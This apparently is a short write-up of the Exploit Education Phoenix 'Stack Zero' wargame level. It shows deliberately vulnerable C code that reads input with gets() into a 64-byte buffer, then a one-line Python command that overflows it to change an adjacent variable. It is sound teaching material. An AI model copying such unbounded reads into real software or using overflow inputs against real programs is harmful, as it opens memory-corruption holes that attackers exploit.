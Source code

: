 ```yaml
---
title: "Stack Zero"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```




```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

The code uses **gets** function which can take input more than buffer length, hence the exploit :)

This level only asks to change the value of **changeme** to any value other than zero so we can just enter any random input that exceeds the buffer length to overwrite the value of **changeme**.

# Solution:

```
$ python -c "print 'A'*100" | /opt/phoenix/amd64/stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```